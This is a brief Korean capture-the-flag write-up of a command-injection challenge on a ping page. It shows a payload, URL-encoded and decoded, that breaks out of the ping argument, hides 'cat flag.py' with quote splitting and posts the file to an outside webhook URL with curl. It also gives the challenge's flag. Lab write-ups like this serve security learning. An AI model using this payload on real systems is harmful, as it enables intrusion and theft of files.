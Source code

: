 # cmdi
사이트에 접속하면 Ping을 보낼 수 있는 Page가 나온다.

이 페이지에서 system 함수를 호출하기 때문에 html pattern을 제거하고 curl을 통해 외부 서버로 flag.py를 전송하였다. 

```
127.0.0.1%22+%7C+curl+-X+POST+https%3A%2F%2Fwebhook.site%2Fwebhook-id%2F+-d+%22%24%28c%22a%22t+%22fla%22g.py%29%22+%23

==

127.0.0.1" | curl -X POST https://webhook.site/webhook-id/ -d "$(c"a"t "fla"g.py)" #
```

# Flag
FLAG = 'flag{inject_into_my_heart}'
